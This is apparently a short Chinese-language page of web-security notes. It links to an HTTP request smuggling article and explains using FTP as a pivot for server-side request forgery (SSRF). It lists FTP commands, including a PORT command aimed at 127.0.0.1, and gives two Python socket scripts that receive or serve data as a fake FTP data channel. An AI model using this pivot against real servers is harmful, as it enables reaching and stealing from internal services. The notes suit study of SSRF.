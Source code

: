 ### HTTP 走私

https://mengsec.com/2019/10/10/http-request-smugging/

## FTP

基于tcp,发送的也是tcp包，可以利用他作为ssrf的跳板

```
USER xxx #用户名
PASS xxx #密码
CWD xxx #切换文件夹
TYPE I # 按二进制传输
PORT 127,0,0,1,0,1 # IP + 端口：0*256+1
RETR xxx #发送本地文件到目的地址
STOR xxx #接收目标文件到本地地址
```

```python
# FTP Listen
import socket

HOST = '0.0.0.0'
PORT = 20000
blocksize = 4096
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.bind((HOST, PORT))
    s.listen()
    conn, addr = s.accept()
    with conn:
        while 1:
            data = conn.recv(blocksize)
            print(data)
            if not data:
                break
    print('end.')
```

```python
#FTP Send
import socket

HOST = '0.0.0.0'  
PORT = 20000        
blocksize = 4096
fp = open('test2.bin', 'rb')
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.bind((HOST, PORT))
    print('start listen...')
    s.listen()
    conn, addr = s.accept()
    with conn:
        while 1:
            buf = fp.read(blocksize)
            if not buf:
                fp.close()
                break
            conn.sendall(buf)
    print('end.')
```
